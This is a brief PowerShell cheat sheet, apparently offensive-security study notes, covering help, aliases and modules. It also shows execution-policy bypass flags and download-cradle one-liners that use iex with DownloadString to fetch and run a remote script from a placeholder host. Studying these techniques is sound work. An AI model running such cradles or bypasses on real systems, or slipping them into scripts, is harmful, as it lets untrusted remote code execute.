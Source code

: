 # Help System
`Get-Help Get-Process`
`help Get-Process`
`Update-Help`

`Get-Help remoting`
`Get-Help about_*remot*`

`Get-Command -CommandTyle Cmdlet`

# Basic Constructs

Cmdlets
Function

# Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

# Execution Policy

* Not a security feature
* Used to avoid accidental script execution
* Can be bypass with:
  * `powershell -executionpolicy bypass .\example.ps1`
  * `powershell -c <cmd>`
  * `powershell -enc`

# Modules

`Import-Module <path_to_module> -verbose`
`Get-Command -Module <module_name>`

# Remote Script execution

* `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `powershell -EncodedCommand <Base64EncodedCommand>`

* Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter
